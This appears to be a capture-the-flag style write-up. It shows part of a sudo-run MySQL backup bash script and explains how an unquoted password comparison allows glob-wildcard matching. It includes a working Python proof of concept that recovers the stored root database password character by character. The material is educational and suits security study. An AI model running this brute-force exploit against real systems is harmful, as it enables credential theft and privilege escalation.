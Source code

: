 ```bash
12	        /usr/bin/echo "Password confirmation failed!"
13	        exit 1
14	fi
15	
16	/usr/bin/mkdir -p "$BACKUP_DIR"
17	
18	databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")
19	
20	for db in $databases; do
21	    /usr/bin/echo "Backing up database: $db"
22	    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
23	done
24	
25	/usr/bin/echo "All databases backed up successfully!"
26	/usr/bin/echo "Changing the permissions"
27	/usr/bin/chown root:sys-adm "$BACKUP_DIR"
28	/usr/bin/chmod 774 -R "$BACKUP_DIR"
29	/usr/bin/echo 'Done!'
```

Here, the script reads the MySQL password from a file `/root/.creds` and stores it in the variable `DB_PASS`. Then, it prompts the user to enter a password and stores it in the variable `USER_PASS`. The vulnerability lies in the comparison of these two variables on line 9.

The comparison `if [[ $DB_PASS == $USER_PASS ]]; then` uses the equality operator `==` without any quoting or protection for the variables. This means that if the password contains special characters or wildcards, they could be interpreted by the shell, leading to unexpected behavior or potentially allowing an attacker to manipulate the comparison.

For example, if the password stored in `/root/.creds` contains a wildcard character such as "\*", it could match multiple characters when expanded by the shell, leading to an unintended comparison. This could potentially allow an attacker to bypass the password check. Here is a PoC:
```python
import string
import subprocess

all_characters = string.ascii_letters + string.digits
db_password = ""

while True:
    next_char = next(
        (
            char
            for char in all_characters
            if subprocess.run(
                f"echo '{db_password}{char}*' | sudo /opt/scripts/mysql-backup.sh",
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                text=True,
            ).stdout.count("Password confirmed!")
        ),
        None,
    )

    if next_char is None:
        break

    db_password += next_char
    print(f"[*] Cracking Password:{db_password}")

print("=" * 50)
```